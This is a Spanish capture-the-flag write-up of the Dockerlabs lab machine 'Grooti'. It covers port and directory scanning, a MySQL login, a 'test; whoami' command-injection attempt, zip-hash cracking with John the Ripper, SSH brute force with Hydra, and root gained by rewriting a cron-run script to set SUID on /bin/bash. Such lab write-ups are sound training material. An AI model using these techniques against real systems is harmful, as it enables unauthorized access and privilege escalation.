

# 🖥️ Writeup - Grooti 

**Plataforma:** Dockerlabs  
**Sistema Operativo:** Linux  

> **Tags:** `Linux` `Web` `MySQL` `Gobuster` `Burp Suite` `John The Ripper` `Hydra` `Fuzzing` `Cron Job` 

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip grooti.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh grooti.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sCV -p22,80,3306 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-02 18:28 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000023s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 46:69:49:1a:d0:b7:26:05:90:a3:22:b2:a8:fe:fd:83 (ECDSA)
|_  256 91:67:c5:15:53:13:af:6f:28:7d:1e:77:46:0c:c1:bb (ED25519)
80/tcp   open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: \xF0\x9F\x8C\xB1 Grooti's Web
|_http-server-header: Apache/2.4.58 (Ubuntu)
3306/tcp open  mysql   MySQL 8.0.42-0ubuntu0.24.04.2
| ssl-cert: Subject: commonName=MySQL_Server_8.0.42_Auto_Generated_Server_Certificate
| Not valid before: 2025-07-18T22:37:08
|_Not valid after:  2035-07-16T22:37:08
|_ssl-date: TLS randomness does not represent time
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.42-0ubuntu0.24.04.2
|   Thread ID: 13
|   Capabilities flags: 65535
|   Some Capabilities: IgnoreSpaceBeforeParenthesis, Speaks41ProtocolNew, SupportsLoadDataLocal, Support41Auth, FoundRows, SupportsCompression, DontAllowDatabaseTableColumn, LongPassword, SupportsTransactions, LongColumnFlag, ConnectWithDatabase, ODBCClient, IgnoreSigpipes, SwitchToSSLAfterHandshake, Speaks41ProtocolOld, InteractiveClient, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: J\x16RI[ml_\x0CsuVh
| \x05\x0DN+#6
|_  Auth Plugin Name: caching_sha2_password
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.80 seconds
```

Investigando la página web en el puerto 80 descubrimos un archivo `README.txt` que contiene la contraseña `password1`, aunque no sabemos a qué usuario o servicio está asociada.

# GOBUSTER

Vamos a investigar si existen más directorios interesantes que nos puedan aportar información adicional.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,zip,php,txt,bak,sh -b 403,404 -t 60
``` 
Info:
```
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 60
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.8
[+] Extensions:              bak,sh,html,zip,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 1436]
/archives             (Status: 301) [Size: 311] [--> http://172.17.0.2/archives/]
/imagenes             (Status: 301) [Size: 311] [--> http://172.17.0.2/imagenes/]
/secret               (Status: 301) [Size: 309] [--> http://172.17.0.2/secret/]
Progress: 1543899 / 1543899 (100.00%)
===============================================================
Finished
===============================================================
```

Además de los directorios `/imagenes` y `/archives`, donde encontramos el `README.txt`, vemos que hay un directorio llamado `/secret`.

Al acceder al directorio `/secret` encontramos una lista de usuarios del sistema: `grooti`, `rocket` y `Naia`.

También hallamos un botón para descargar un archivo de instrucciones llamado `instrucciones.txt`. Dentro de este archivo se encuentra el siguiente comando:

```bash
mysql -u rocket -p -h 172.17.0.2 --ssl=0
```

Ya tenemos el comando para acceder a la base de datos con el usuario rocket, y contamos con la contraseña encontrada anteriormente `password1`, así que vamos a intentarlo.

Info:
```
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 21
Server version: 8.0.42-0ubuntu0.24.04.2 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> 
```
Indagando en MySQL encontramos una base de datos llamada `files_secret` con una tabla llamada `rutas`. Dentro de ella aparecen rutas interesantes.

Info:
```
MySQL [files_secret]> select * from rutas;
+----+------------+---------------------------------+
| id | nombre     | ruta                            |
+----+------------+---------------------------------+
|  1 | imagenes   | /var/www/html/files/imagenes/   |
|  2 | documentos | /var/www/html/files/documentos/ |
|  3 | facturas   | /var/www/html/files/facturas/   |
|  4 | secret     | /unprivate/secret               |
+----+------------+---------------------------------+
4 rows in set (0.000 sec)
```
Una de estas podría corresponder a un directorio de la página web que antes no habíamos podido localizar utilizando Gobuster.

Y efectivamente, en `http://172.17.0.2/uprivate/secret` encontramos un formulario. Dicho formulario permite introducir un string de texto y un número del 1 al 100.

Al enviar los datos `hola` y `12`, la aplicación devuelve un archivo `.txt` que contiene el string que hemos introducido previamente.

Como primer intento de explotación para lograr un RCE, probamos a introducir en el campo de texto una cadena seguida de un punto y coma y un comando del sistema, por ejemplo:

```bash
test; whoami
``` 
Sin embargo, este enfoque no funcionó.

A continuación, utilizamos BurpSuite para interceptar la petición y configurar un ataque de tipo Intruder, probando secuencialmente todos los valores numéricos del 1 al 100. El objetivo es identificar posibles diferencias o anomalías en las respuestas.

Durante esta prueba, observé que la respuesta correspondiente al número 16 era más larga de lo habitual.



Repetimos el envío manual del formulario con el número 16, y en lugar de recibir un archivo `.txt`, el servidor devuelve un archivo `.zip`.

Intentamos descomprimir el `.zip`, pero se nos pide una contrasenya.

Usaremos john the ripper para extraer el hash y crackearlo.

```bash
zip2john password16.zip > hash.txt
``` 

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
``` 
Info:
```
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password1        (password16.zip/password16.txt)     
1g 0:00:00:00 DONE (2025-09-02 20:12) 100.0g/s 409600p/s 409600c/s 409600C/s 123456..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Vemos que la contrasenya es `password1` , la misma que habiamos encontrado al principio.

Una vez descomprimido el `.zip`, obtenemos un archivo `.txt` que parece un diccionario de contraseñas, así que lo utilizaremos para intentar obtener acceso por `SSH` con uno de los tres usuarios que habíamos identificado antes.

```bash
hydra -L users.txt -P password16.txt ssh://172.17.0.2 -t 64
```

Info:
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-02 20:17:33
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 102 login tries (l:3/p:34), ~2 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: grooti   password: YoSoYgRoOt
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-02 20:17:41
```

Tenemos la contrasenya del usuario `grooti` : `YoSoYgRoOt`

# ESCALADA DE PRIVILEGIOS

Una vez dentro, comprobamos permisos `sudo`, `SUID`, `Capabilities`.

```bash 
sudo -l
```

```bash
find / -perm -4000 -type f 2>/dev/null 
```

```bash
sudo getcap -r / 2>/dev/null
```

Nada que indique una vía clara de escalada. Vamos a comprobar qué archivos podemos encontrar en el sistema.

En el directorio `/tmp` hallamos un archivo llamado `malicious.sh`, el cual crea logs temporales y los elimina al cabo de 2 segundos.

Si conseguimos modificar el contenido de este archivo, probablemente podremos ejecutar código arbitrario para escalar privilegios.

```bash
printf '#!/bin/bash\nchmod u+s /bin/bash\n' > malicious.sh
```
Hemos alterado el script para que otorgue permisos SUID al binario `/bin/bash`. Ahora solo queda esperar unos segundos y probar el comando `/bin/bash -p` , lo que debería proporcionarnos una shell con privilegios de root.


Ya somos root! 